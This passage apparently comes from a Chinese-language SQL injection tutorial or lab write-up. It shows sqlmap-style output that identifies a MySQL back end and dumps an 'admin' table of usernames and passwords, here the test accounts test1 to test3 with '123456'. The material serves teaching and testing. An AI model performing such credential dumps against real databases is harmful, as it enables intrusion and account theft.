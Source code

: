 输出：可以查看到用户名与密码。

```
..........
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
............
```
